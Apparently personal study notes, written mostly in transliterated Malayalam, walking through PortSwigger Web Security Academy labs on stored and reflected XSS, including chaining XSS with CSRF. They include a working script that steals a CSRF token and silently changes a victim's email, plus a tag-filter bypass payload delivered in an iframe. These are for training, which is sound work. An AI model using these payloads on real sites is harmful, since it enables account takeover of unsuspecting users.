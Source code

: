 ========================================================

    Lab-4( Exploiting XSS to perform CSRF)
-->ivide namal xss combined with csrf use chyth user inte email change chyan sremikunu
-->so aadyam namude credential vech keruka.apol athil update email enna option kanum so ath inspect/view-source chyuka.enit aa req engot pokunu(action="") , athinte csrf token,athinte value ellam study chyuka
-->ith study chyumbol manasilakan patunathenthenal email change chyan passwd venda, pine ee request inte process engane ennal ith /my-account/change-email enna path ilek oru /POST request aan ayakunath with a parameter called "email".ith koodathe ithinte koode csrf token koodi und.
-->==This means your exploit will need to load the user account page, extract the CSRF token, and then use the token to change the victim's email address. ==
-->ithrem karyam manasilakiya sthithik ini nammal logout chyuka enit stored xss ulla sthalam kandethuka,ivide bog post ile comment section.so avide poi comment: il ee payload add chyuka:
       
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>

ini ethengilum oru user ee page visit chythal avante email automatic aayi marum enit test@test.com ennakum
-->ith nadakunathinte pradhana karanam onn xss und,pine email change chyumbol passwd chodikunila.anti-csrf token unden paranjit karyamilla karanam xss undengil aa token kond valya karyamonum ila.ipo just csrf vulnerability marhramanengil ee token kond karyam undayene
-->so aadyam nammal xss undon en nokanam athilengil just csrf vulnerability mathrame chyan patu.athinu ivide csrf token um und
-->ee lab kond manasilakendath enthenal xss+csrf inte power aan

==========================================================

     Lab-5( Stored XSS into HTML context with nothing encoded)
-->ividem lab-1 il chythpole thane aake ulla oru vyathyasam enthenal ith stored xss aan.so search il poi ital aakila.stored means nammal kodukuna input server store chyanam
-->so ivide blog post il comment iduna sthalath stored xss und 
-->so <script>alert("hai")</script> koduth baki name,email oke koduth post comment adikuka.enit thirich athe post il poyal xss trigger chyapedunath kanam

==============================================================

     Lab-6(Reflected XSS into HTML context with most tags and attributes blocked)
-->ivide nammal lab open chyth search il poi <script>alert(1)</script> adikumbol tag is not allowed enn kanikunu
-->so aa request intruder il viduka enit allowed aaya tag cheat sheetil ninum intruder vazhi kandupidikuka
-->aadyam <$tag$> kandupidikuka 
-->then <body%20$attribute$=1> apol namuk ingane kitum:
             <body onresize=alert(1) />  so ith search il search chythit browser resize chythal ee alert pop up chyum
-->ini ith iframe tag il aaki victims in send chyanam:
		<iframe src="https://your-lab-id.web-security-academy.net/search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
-->ith koduthit store click chyuka enit deliver to victim koduthal solve aakum
	============================================================
